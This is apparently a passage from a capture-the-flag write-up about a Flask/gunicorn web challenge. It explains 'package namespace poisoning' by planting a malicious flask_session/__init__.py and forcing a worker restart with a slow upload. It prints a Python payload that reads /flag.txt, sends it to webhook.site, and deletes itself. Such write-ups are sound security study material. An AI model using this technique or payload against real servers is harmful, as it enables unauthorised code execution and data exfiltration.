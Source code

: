 According to <https://docs.gunicorn.org/en/stable/settings.html> the worker has a default timeout of 30 seconds, if it hangs for 30 seconds the worker will be restarted, so if we can hang the web app for 30 seconds we should be able to execute our code when flask_session is imported on the worker restart.

> ###### `timeout`
>
> **Default:** `30`
>
> Workers silent for more than this many seconds are killed and restarted.

###### What is package namespace poisoning

Package namespace poisoning is a technique where an attacker manipulates the namespace of a package or module. By injecting malicious content into the package or module's namespace, attackers can execute arbitrary code.

In the context of this challenge, package namespace poisoning involves manipulating the `flask_session` module to execute arbitrary code on the server by placing an `___init__.py` file in the `./flask_session` directory, which is then executed on import, this is the case as python first looks in the current directory when resolving package namespaces.

###### The Payload

```python
# ./flask_session/__init__.py

# from flask_session import *

# Write flag file to a path we can access on the site incase request fails
import os
os.system("cat /flag.txt > /app/static/uploads/flag.txt")

# Send flag file as a GET request to webhook if worker never recovers
import http.client
host = "webhook.site"
conn = http.client.HTTPSConnection(host)

with open("/flag.txt") as f:
    flag = str(f.read())[:-1]
    conn.request("GET", "/6aa6e780-08a6-4d73-8c89-0a5f371faa43/?flag="+flag)
    response = conn.getresponse()
    print(response.status, response.reason)

#Self destructs after execution to aid worker recovery
os.system("rm /app/flask_session/__init__.py")
```

We can hang the gunicorn worker with a slow upload, but we cannot upload files larger than 1M (set by `MAX_CONTENT_LENGTH`) so a very large file isn't an option, but we can upload via curl at whatever speed we want, so that gunicorn restarts the worker after spending 30 seconds handling our request.

###### solve-unintended.sh
